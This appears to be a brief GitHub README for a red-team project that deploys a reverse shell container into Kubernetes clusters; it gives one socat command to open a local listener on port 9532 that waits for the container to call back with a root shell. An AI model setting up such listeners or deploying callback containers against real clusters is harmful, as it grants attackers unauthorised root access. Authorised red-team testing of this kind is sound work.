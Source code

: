 # redteam-gkpown
Reverse shell container for k8s deployments

Run this on your local machine and wait for the container to deploy and call back with a root shell:

    socat file:`tty`,raw,echo=0 tcp-listen:9532
